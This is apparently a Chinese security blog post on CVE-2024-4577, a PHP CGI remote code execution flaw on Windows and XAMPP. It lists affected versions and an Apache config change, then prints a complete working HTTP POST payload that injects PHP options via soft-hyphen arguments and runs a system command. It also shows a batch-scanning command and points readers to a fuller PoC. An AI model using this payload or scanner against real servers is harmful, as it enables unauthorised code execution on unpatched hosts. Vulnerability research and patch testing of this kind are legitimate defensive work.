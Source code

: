 #  PHP CGI Windows平台远程代码执行漏洞（CVE-2024-4577）附poc和批量扫描脚本   
原创 深潜sec安全团队  深潜sec安全团队   2024-06-08 14:15  
  
# 前言  
  
在2024.6.6那天发现公众号发布了一篇很火的文章，是关于PHP CGI Windows平台远程代码执行漏洞（CVE-2024-4577），通过@Orange Tsai 几个小时前发了一条推文，称“他的一个 PHP 漏洞默认影响 XAMPP”，我们对此感到十分好奇。XAMPP 是管理员和开发人员快速部署 Apache、PHP 和许多其他工具的一种非常流行的方式，任何可能在其默认安装中给我们带来 RCE 的漏洞听起来都很诱人。  
# 漏洞描述  
  
CVE-2024-4577导致漏洞产生的本质其实是Windows系统内字符编码转换的Best-Fit特性导致的，相对来说PHP在这个漏洞里更像是一个受害者。由于Windows系统内字符编码转换的Best-Fit特性导致PHP原本的安全限制被绕过，再加上一些特殊的PHP CGI环境配置导致了这个问题，最终导致漏洞利用的算是一些PHP的小技巧。  
# 影响范围  
  
这个漏洞理论上影响PHP的所有版本  
- • PHP 8.3 < 8.3.8  
  
- • PHP 8.2 < 8.2.20  
  
- • PHP 8.1 < 8.1.29  
  
除此之外的其他PHP版本官方已经不再维护了，包括PHP8.0、PHP7、PHP5在内，但是理论上来说他们都受到这个影响。  
# 漏洞复现  
  
1. 第一种打法，通过修改httpd-xampp.conf中注释解开下面这段代码，注释之后需要重启apache服务  
> # PHP-CGI setup  
> #  
> <FilesMatch "\.php$">  
>    SetHandler application/x-httpd-php-cgi  
> </FilesMatch>  
> <IfModule actions_module>  
>    Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"  
> </IfModule>  
  
  
通过发送以下的payload，可以成功执行命令  
> POST /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1Host: 192.168.200.12User-Agent: curl/8.3.0Content-Type: application/x-www-form-urlencodedContent-Length: 25<?php system('whoami');?>  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/bfMXBp6QpdwDuShxpvgu8NeFz74j2pgr1Neia9Sp9ia9WKZJ52hCibiaYwQukmJVXedjhM8WtyKViaeH1Wnib27ojOEA/640?wx_fmt=png&from=appmsg "null")  
1. 2. 第二种打法，是直接默认按安装之后的，完全不需要在服务器上修改xampp的任何配置，也可以成功执行命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/bfMXBp6QpdwDuShxpvgu8NeFz74j2pgrxA0shIxLmoiaNTWhUjHjqXyiawpZMSXSlGtxcw1HLWpMmNl64LkldWow/640?wx_fmt=png&from=appmsg "null")  
# 扫描工具  
> python3 CVE-2024-4577.py -uf 1.txt  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/bfMXBp6QpdwDuShxpvgu8NeFz74j2pgrD05rLyNaMF5flvWgBvJqS58Tp2TndwSHJTOh5Ojsh0rhZVYueialFsQ/640?wx_fmt=png&from=appmsg "null")  
  
  
  
关注微信公众号回复0608获取POC  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/bfMXBp6QpdwDuShxpvgu8NeFz74j2pgrNWTgb5UoibxiamXUdnYUiamOpVnoISzWqKHhtuQNa8xvPWef1hjzCMQqQ/640?wx_fmt=other&from=appmsg "")  
  
  
  
免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试。读者在使用本文提供的信息时，应自行判断其适用性，并承担由此产生的一切风险和责任。本文作者对于读者基于本文内容所做出的任何行为或决定不承担任何责任。在任何情况下，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
